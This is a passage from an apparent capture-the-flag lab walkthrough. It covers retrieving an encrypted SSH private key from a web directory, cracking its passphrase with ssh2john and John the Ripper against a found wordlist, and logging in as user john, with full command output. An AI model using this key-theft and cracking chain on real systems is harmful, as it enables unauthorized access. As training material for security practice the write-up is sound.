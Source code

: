 - In source code of main page you can find valuable comment and in `/uploads` directory you'll find list, note and a meme. Download them all.

  ```<!-- john, please add some actual content to the site! lorem ipsum is horrible to look at. -->```
  
- In `/secret` directory is a RSA key, download it as well.

  ```
  -----BEGIN RSA PRIVATE KEY-----
  Proc-Type: 4,ENCRYPTED
  DEK-Info: AES-128-CBC,82823EE792E75948EE2DE731AF1A0547
  
  [SNIP!]
  -----END RSA PRIVATE KEY-----
  ```

- Since we already have username and key, we just need a passphrase for SSH login. We will get that through john and login with SSH. For wordlist use the list we found in `/uploads`

  ```
  ssh2john id_rsa > key.hash

  john --wordlist=dict.lst key.hash 
  Using default input encoding: UTF-8
  Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
  Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
  Cost 2 (iteration count) is 1 for all loaded hashes
  Will run 2 OpenMP threads
  Press 'q' or Ctrl-C to abort, almost any other key for status
  letmein          (id_rsa)     
  1g 0:00:00:00 DONE (2025-05-14 20:34) 100.0g/s 22200p/s 22200c/s 22200C/s baseball..starwars
  Use the "--show" option to display all of the cracked passwords reliably
  Session completed. 
  
  chmod 600 id_rsa

  ssh -i id_rsa john@10.10.90.45
  Enter passphrase for key 'id_rsa': 
  Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)
  
  [SNIP!]
  
  Last login: Mon Jul 27 20:17:26 2020 from 10.8.5.10
  john@exploitable:~$ whoami
  john
  john@exploitable:~$ id
  uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
  ```

---

## 🧍 User Privilege Escalation

- User flag is already there.

  ```
  john@exploitable:~$ pwd
  /home/john
  